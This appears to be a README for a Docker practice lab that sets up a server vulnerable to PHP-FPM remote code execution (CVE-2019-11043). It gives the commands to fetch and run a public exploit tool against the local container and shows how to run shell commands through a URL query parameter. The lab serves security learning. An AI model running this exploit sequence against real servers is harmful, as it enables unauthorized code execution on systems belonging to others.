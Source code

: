 # Code Exection
A server vulnerable to remote code
execution (CVE-2019-11043).

## Execution
```bash
docker compose up -d

# Pull the exploit and execute it
go get github.com/neex/phuip-fpizdam
phuip-fpizdam http://localhost:8080/index.php
```

The website runs on http://localhost:8080.

Run http://localhost:8080/index.php?a=id to
execute the `id` command. The output will come back
with the webpage. Root permissions aren't available,
so file output operations won't work.

# Made with ❤ by [Param](https://www.paramsid.com).